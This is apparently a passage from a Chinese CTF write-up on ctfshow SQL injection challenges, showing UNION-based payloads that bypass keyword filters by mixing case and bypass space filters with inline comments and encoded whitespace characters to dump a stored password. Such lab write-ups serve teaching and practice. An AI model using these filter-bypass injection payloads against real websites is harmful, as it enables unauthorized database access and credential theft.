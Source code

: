 首先通过 order by 进行测试 可以发现是3个字段

但是通过union select 的时候就发现接口错误

说明过了waf

```sql
这里我们就可以开始对union select 进行测试了 最简单的测试就是 通过大小写绕过
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/122e08a2eb4bd030fe816dcecd6522b8.png" alt="" style="max-height:233px; box-sizing:content-box;" />


发现成功回显 说明后端可能是通过正则对union select进行了过滤

所以我们可以猜测 后端可能是这种语句



<img src="https://i-blog.csdnimg.cn/blog_migrate/c424657272dfe0eae26f280fb9a10c8e.png" alt="" style="max-height:278px; box-sizing:content-box;" />


只对字符串进行匹配 并且不对大小写进行过滤

所以我们就可以开始继续注入了

```csharp
1'  uNIon seLEct 1,group_concat(password),3 from ctfshow_user where username='flag'-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/f0579e53df258aefd2f0405446ff7a5d.png" alt="" style="max-height:288px; box-sizing:content-box;" />


## web177 过滤空格绕过

这里我们经过测试 可以发现空格被过滤了

所以这里我们可以通过

```cobol
%a0 %0a () %09 %0c %0d  %0b  
 
并且这里 -- + 不能使用 我们使用 # 但是这里我们需要url编码 就是 %23
```

然后我们就可以进行注入 了 这里也过滤了 union select 但是没有大小写

```csharp
1'/**/Union/**/Select/**/1,2,group_concat(password)from/**/ctfshow_user/**/where/**/username='flag'%23
```

这里的waf我们猜测看可能是这样的



<img src="https://i-blog.csdnimg.cn/blog_migrate/127c082af5c11e836126479cfc5e75b3.png" alt="" style="max-height:291px; box-sizing:content-box;" />


只过滤了 %20 所以我们可以使用其他的方式绕过
